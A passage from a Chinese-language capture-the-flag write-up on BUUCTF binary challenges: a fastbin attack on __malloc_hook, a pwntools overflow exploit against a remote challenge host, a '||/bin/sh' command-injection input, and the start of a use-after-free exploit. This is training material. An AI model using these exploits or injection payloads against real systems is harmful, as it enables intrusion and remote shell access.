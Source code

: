```python
io.interactive()
```

**方法3：爆破修改__malloc_hook**
在方法一的fastbin attack之后，我们通过释放一个chunk到unsorted bin中能够在堆中写入main_arena+88的地址。通过分析可知__malloc_hook的地址应为main_arena - 0x10处。如果需要在这里分配一个fastbin，需要写入main_arena - 0x23来错位分配（起始地址即为下图中标出的地方），但这样需要修改最低两个字节的值，因此倒数第二低字节的高4位需要爆破，成功率为1/16。分配到这里的地址之后，把one_gadget写入到hook中调用malloc即可。

![](2.png)
但是这种方法在本题中不太可行。因为本题不能读取任何数据，只能通过修改unsorted bin的fd和bk指针分配，而unsorted bin的检查比fastbin多得多，无法通过检查。如果能够将fastbin chunk的fd中写入此处的地址应该是没有问题的，但问题就在于我们无法获取其地址，只能通过修改低字节的方式修改它。

后来想想，如果真的要将fastbin chunk中的fd指针修改为main arena的地址也不是不行。方法：首先通过前两种方法获取到对heaparray的写权限，然后把一个chunk释放两次，第一次释放在fastbin中，第二次释放在unsorted bin中，两次释放之间通过堆溢出修改chunk的大小（改大）使第二次能被释放到unsorted bin中。

不过按照上面的方法就显得有点多此一举了。其思想与方法一是相同的，都是错位分配。因此这里就不再进行赘述了。感兴趣的读者可以自己实现一下。
# buu040-wustctf2020_getshell
```python
from pwn import *
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29015)
io.sendline(cyclic(24) + p32(0xdeadbeef) + p32(0x804851B))
io.interactive()
```
# buu041-bjdctf_2020_router
nc直接连，输入1然后输入``||/bin/sh``即可。这是linux命令行特性，要知道``||``的含义：上一条命令执行失败之后执行下一条命令，远程没有ping，因此直接执行/bin/sh。
# buu042-hitcontraining_uaf
经典菜单题，从题目标题就能看出来是一道考UAF的题。在del_note函数中果然出现了UAF漏洞：
```c
if ( notelist[index] )
  {
    free(notelist[index]->strbuf);
    free(notelist[index]);		// 没有清空指针
    puts("Success");
  }
```
通过分析add_note函数可知，最多分配5个chunk，每一个chunk有一个函数指针和一个存放字符串的buffer，函数指针固定指向print_note_content函数。不难想到通过UAF可以将函数指针修改为后门函数magic：
- 首先分配两个chunk，字符串chunk的大小大于0x20
- 释放这两个chunk
- 分配第三个chunk，字符串chunk大小为0x20，这样第三个chunk的字符串chunk和第一个chunk位置相同，修改其函数指针调用即可。
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25067)

def add(size, content):
	io.sendlineafter(b'Your choice :', b'1')
	io.sendlineafter(b'Note size :', str(size).encode())
	io.sendlineafter(b'Content :', content)

def delete(index):
	io.sendlineafter(b'Your choice :', b'2')
	io.sendlineafter(b'Index :', str(index).encode())

def printc(index):
	io.sendlineafter(b'Your choice :', b'3')
	io.sendlineafter(b'Index :', str(index).encode())
```